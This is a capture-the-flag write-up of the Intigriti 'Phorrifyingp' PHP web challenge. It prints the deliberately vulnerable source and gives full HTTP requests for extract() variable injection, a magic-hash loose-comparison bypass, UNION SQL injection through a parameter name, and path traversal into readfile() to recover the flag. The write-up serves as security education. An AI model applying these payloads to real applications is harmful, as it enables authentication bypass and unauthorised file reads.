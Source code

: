 ```yaml
---
layout: post
title: Intigriti CTF — Phorrifyingp
author: Cillian
tags: [ctf, web]
---
```


In this post I'll discuss the first challenge our team solved as part of the Intigriti CTF. This was a php web challenge where we were given the source and asked to read the contents of the file to retrieve a flag.

<!-- read more -->

## Initial Assessment
The source code for the challenge can be seen below:

    <?php  
	    /*  
	    <flag> ➡➡➡ ⛳🏁 ⬅⬅⬅ <flag>  
	    */  
	    if ($_SERVER['REQUEST_METHOD'] == 'POST'){  
		    extract($_POST);  
	      
		    if (isset($_POST['password']) && md5($_POST['password']) == 'put hash here!'){  
			    $loggedin = true;  
		    }  
	      
		    if (md5($_SERVER['REMOTE_ADDR']) != '92d3fd4057d07f38474331ab231e1f0d'){  
		    header('Location: ' . $_SERVER['REQUEST_URI']);  
		    }  
		      
		    if (isset($loggedin) && $loggedin){  
			    echo 'One step closer 😎<br>';  
		      
			    if (isset($_GET['action']) && md5($_GET['action']) == $_GET['action']){  
				    echo 'Really? 😅<br>';  
				      
				    $db = new SQLite3('database.db');  
				    $sql_where = Array('1=0');  
				      
				    foreach ($_POST as $key => $data) {  
					    $sql_where[] = $db->escapeString($key) . "='" . $db->escapeString($data) . "'";  
				    }  
				      
				    $result = $db->querySingle('SELECT login FROM users WHERE ' . implode(' AND ', $sql_where));  
				      
				    if ($result == 'admin'){  
					    echo 'Last step 🤣<br>';  
				      
					    readfile(file_get_contents('php://input'));  
					}  
			    }  
		    }  
	    }  
    ?> 

We can see that this challenge will require us to bypass a number of conditional statements in order to execute the final readfile() function, where we will then need to modify our payload so that we can read a file.

## Step 1: We're Logged In!

    if (isset($loggedin) && $loggedin)

The first important conditional statement is checking if the $loggedin variable is true. We notice a suspicious usage of the extract() function above this. This function allows variables to be extracted from arrays. It's being run on $_POST which is our POST input (user/attacker controlled). This will allow us to not only declare variable, but also to assign values to them using POST data.

We can simply pass a loggedin parameter with a value of true.

> POST / HTTP/1.1 Host: phorrifyingp.ctf.intigriti.io Content-Type:
> application/x-www-form-urlencoded Content-Length: 32
> 
> loggedin=true

Once sent, we see the confirmation on the page:

> One step closer 😎

## Step 2: It's Magic!

    if (isset($_GET['action']) && md5($_GET['action']) == $_GET['action'])

The next conditional statement is checking for a GET parameter named "action". This parameter must satisfy the condition that its value is equal to its md5 value.
  
This seems very unlikely. In fact, it takes a little bit of understanding about php [magic hashes](https://www.whitehatsec.com/blog/magic-hashes/) to understand how this condition could be satisfied.

In short, the use of "=\=" allows for comparison of different object types. If we wanted to compare the literal value, we'd use "\=\=\=". If we enter a String with a value such as "0e1", this will effectively equal 0 to the power of 1 (which is 0). In fact, 0 to the power of any number will always result in 0.

Using this logic, we simply need an input beginning with 0e and followed by a series of numbers which results in a md5 hash which also begins with 0e and is followed by a series of numbers.

Once such input is "0e215962017". The md5 value of which is "0e291242476940776845150308577824".

Placing this as a GET parameter, we will get one step closer.

    POST /?action=0e215962017 HTTP/2
    Host: phorrifyingp.ctf.intigriti.io
    Content-Type: application/x-www-form-urlencoded
    Content-Length: 13
    
    loggedin=true

We get the confirmation:

> Really? 😅

## Step 3: State Of The Union

    if ($result == 'admin')
The last conditional statement checks if $result is equal to 'admin'. This value comes from a SQL statement. Each of the parameters we pass in our POST data will become a part of this query. They are joined with the 'AND' condition. The clause array is initially populated with "1=0" which can never be true.

Firstly, we encounter errors about "no such column loggedin", which hints that we'll need to find a way to get rid of this part of the query, we can do so by commenting it out.

    1--=aaaa&loggedin=true

Next, we notice that the current state of the query will never be true due to the "1=0" condition. This hints towards us using a UNION query to separately select the "admin" entry. We inject this into the parameter name.

   

    POST /?action=0e215962017 HTTP/2
    Host: phorrifyingp.ctf.intigriti.io
    Content-Type: application/x-www-form-urlencoded
    Content-Length: 52
    
    1/**/UNION/**/SELECT/**/"admin"--=aaaa&loggedin=true

We receive the confirmation that we have bypassed this check:

> Last step 🤣

## Step 4: Traversing The Plane
   

> Warning</b>: 
> readfile(1/\*\*/UNION/\*\*/SELECT/**/&quot;admin&quot;--=aaaa&amp;loggedin=true):
> failed to open stream: No such file or directory in
> /var/www/html/index.php

As we can see from the error above, the entire POST data payload is being sent into the readfile() function.

We can enter invalid directories, as long as we traverse back out of them. Using "\.\." we are in effect removing it from the path **before** it is ever searched for.

    POST /?action=0e215962017 HTTP/2
    Host: phorrifyingp.ctf.intigriti.io
    Content-Type: application/x-www-form-urlencoded
    Content-Length: 108
    
    1/**/UNION/**/SELECT/**/"admin"--=a&loggedin=true&test=/../../../../../../../../../../var/www/html/index.php

And we get the flag:

> 1337UP{PHP_SCARES_ME_IT_HAUNTS_ME_WHEN_I_SLEEP_ALL_I_CAN_SEE_IS_PHP_PLEASE_SOMEONE_HELP_ME}

## Final Notes
Thanks to all members of "Team Ireland Without RE" with special thanks to [@0daystolive](https://twitter.com/0daystolive).
